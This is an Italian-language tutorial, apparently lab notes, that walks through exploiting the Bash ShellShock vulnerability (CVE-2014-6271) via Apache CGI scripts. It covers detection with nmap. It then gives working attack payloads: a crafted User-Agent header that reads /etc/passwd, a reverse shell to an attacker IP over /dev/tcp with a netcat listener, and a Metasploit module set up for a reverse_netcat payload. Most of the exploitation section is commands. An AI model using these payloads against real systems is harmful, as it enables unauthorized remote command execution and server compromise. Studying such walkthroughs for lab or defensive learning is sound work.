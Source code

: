 # Bash CVE-2014-6271 ShellShock

**ShellShock** è una vulnerabilità critica scoperta nel 2014 che interessa molte versioni del linguaggio **Bash** su sistemi *Unix-like*. Consente ad un attaccante di eseguire comandi arbitrari su un server vulnerabile sfruttando variabili d'ambiente manipolate, comunemente attraverso script **CGI** serviti da **Apache**.

## 1 Bash e CGI

**Bash (Bourne Again Shell)** è una shell a riga di comando molto diffusa nei sistemi Linux. <br>
Una **shell** è l'interfaccia testuale che consente l'interazione diretta con il sistema operativo, eseguendo comandi e script.

**CGI (Common Gateway Interface)** è uno standard che permette a un web server (es. Apache) di eseguire programmi o script (come `.cgi` o `.sh`) esterni, al fine di generare contenuti dinamici. <br>
Quando un utente visita una pagina che richiede un'elaborazione, il server Apache invoca lo script CGI per processare l'informazione.

Gli script `.cgi` sono spesso scritti in Bash, Python o Perl, ed eseguono codice con i permessi del server web. <br>
Se la shell di riferimento è una versione di Bash vulnerabile, gli script possono essere utilizzati per iniettare comandi arbitrari sfruttando ShellShock.

La vulnerabilità è causata dal modo in cui Bash gestisce **le variabili d'ambiente contenenti dichiarazioni di funzione**: 
```bash
() { :; }; echo vulnerabile
```
Questa stringa dovrebbe essere interpretata come una funzione vuota, ma Bash esegue anche il comando `echo vulnerabile`, rendendo possibile l'injection di comandi.

---

## 2 – Rilevamento del servizio vulnerabile

Eseguiamo una scansione per verificare che **Apache** sia attivo:

`nmap -sV <IP>`

Se la porta `80` mostra il servizio `Apache`, possiamo collegarci dal browser e verificare la presenza di contenuti o script `.cgi`. <br>
Consigliato ispezionare la pagina o directory per trovare riferimenti a file come `script.cgi`, `test.cgi`, ecc.

Dopo aver identificato uno script CGI lo visualizziamo inserendolo nella barra degli indirizzi del browser:

`http://<IP>/script.cgi`

Eseguiamo la scansione con Nmap per testare ShellShock:

`nmap -sV <IP> --script=http-shellshock --script-args "http-shellshock.uri=/script.cgi"`

> **Nota**: `http-shellshock.uri` indica il percorso relativo allo script CGI (es. `/test.cgi`). <br>
> La `URI` è semplicemente la parte finale del path usato per raggiungere lo script sulla macchina target.

---

## 3 – Exploitation manuale via BurpSuite

Impostiamo il proxy FoxyProxy su Firefox e abilitiamo **Intercept** su BurpSuite.

Carichiamo la pagina CGI e intercettiamo la richiesta HTTP. Cerchiamo l'header:
```http
User-Agent: Mozilla/5.0 (...)
```
Sostituiamo il valore con:
```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```
- `() { :; };` → definisce una funzione vuota
- `echo; echo;` → aggiunge output visibile per test
- `/bin/bash -c '<comando>'` → esegue il comando specificato

adesso abbiamo la possilitá di lanciare i comandi che vogliamo e quindi possiamo aprire una reverse shell dando il comando:

`nc -nvlp <PORTA>`

per configurare Netcat in modo che sia in ascolto su una determinata porta

successivamente possiamo usare il seguente comando
```bash
bash -i >& /dev/tcp/<IPAttaccante>/<PORTA> 0>&1
```
da inserire su BurpSuite.

Quindi il comando completo sará:
```bash
() { :; }; /bin/bash -c 'bash -i >& /dev/tcp/<IPAttaccante>/<PORTA> 0>&1'
```

Appena il comando viene eseguito, avremo una reverse shell interattiva dal target vulnerabile.

---

## 4 – Exploitation automatizzato con Metasploit

### Scanner:
```bash
use auxiliary/scanner/http/apache_mod_cgi_bash_env
set RHOSTS <IP>
set TARGETURI /cgi-bin/script.cgi
run
```

### Exploit:
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <IP>
set TARGETURI /cgi-bin/script.cgi
set PAYLOAD cmd/unix/reverse_netcat
set LHOST <IPAttaccante>
set LPORT <Porta>
run
```
Questo modulo automatizza l'invio del payload e apre una reverse shell sulla macchina target.

---

